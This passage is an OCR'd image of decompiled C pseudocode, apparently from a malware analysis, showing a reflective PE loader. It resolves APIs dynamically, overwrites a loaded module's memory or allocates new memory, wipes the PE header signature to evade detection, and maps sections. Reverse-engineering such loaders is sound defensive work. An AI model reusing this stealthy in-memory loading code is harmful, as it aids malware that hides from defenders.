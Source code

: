 ```c
          break;
        default:
          f_GetModuleHandleA = (int (__stdcall *)(_IMAGE_DOS_HEADER *))((char *)Ldr + *v13);
          break;
      }
      --v17;
    }
    ++v38;
    ++v23;
  }                                             // 
                                                // 
                                                // done api solving
                                                // 
  v46 = (_IMAGE_NT_HEADERS *)((char *)i + i->e_lfanew);
  if ( (v46->FileHeader.Characteristics & (unsigned __int16)IMAGE_FILE_BYTES_REVERSED_HI) != 0 )
    perm = 0x40;
  else
    perm = 4;
  new_base_addr = 0;
  if ( (v46->FileHeader.Characteristics & 0x4000) != 0 && !f_GetModuleHandleA(i + 1) )
  {
    v6 = f_LoadLibraryExA(i + 1, 0, 1);
    for ( k = 1; v6 != 0xFFFFFFFF && k < 0x10 && !new_base_addr; ++k )
      new_base_addr = f_GetProcAddress(v6, k);
    if ( new_base_addr )
    {
      new_base_addr -= new_base_addr % 0x1000;
      f_VirtualProtect(new_base_addr, v46->OptionalHeader.SizeOfImage, perm, oldProtect);
      memset((void *)new_base_addr, 0, v46->OptionalHeader.SizeOfImage);
      f_VirtualProtect(new_base_addr, v46->OptionalHeader.SizeOfImage, perm, oldProtect);
    }
  }
  if ( !new_base_addr )
  {
    new_base_addr = f_VirtualAlloc(0, v46->OptionalHeader.SizeOfImage, 0x3000, perm);
    memset((void *)new_base_addr, 0, v46->OptionalHeader.SizeOfImage);
  }
  v10 = (void *)(new_base_addr + v46->OptionalHeader.SizeOfImage - 0x40);
  NumberOfSymbols = v46->FileHeader.NumberOfSymbols;
  SizeOfHeaders = v46->OptionalHeader.SizeOfHeaders;
  k = new_base_addr;
  if ( NumberOfSymbols )
  {
    new_base_addr -= v46->OptionalHeader.SectionAlignment;
  }
  else
  {
    qmemcpy((void *)k, i, SizeOfHeaders);
    if ( (v46->FileHeader.Characteristics & 1) != 0 )
    {
      *(_DWORD *)(*(_DWORD *)(k + 0x3C) + new_base_addr) = 0;
      *(_WORD *)k = 0;
      *(_DWORD *)(k + 0x3C) = 0;
    }
  }
  v31 = (_DWORD *)((char *)&v46->OptionalHeader.Magic + v46->FileHeader.SizeOfOptionalHeader);
  NumberOfSections = v46->FileHeader.NumberOfSections;
  while ( NumberOfSections-- )
  {
    v19 = (void *)(v31[3] + new_base_addr);
    k = (unsigned int)i + v31[5];
    v39 = v31[4];
    qmemcpy(v19, (const void *)k, v39);
```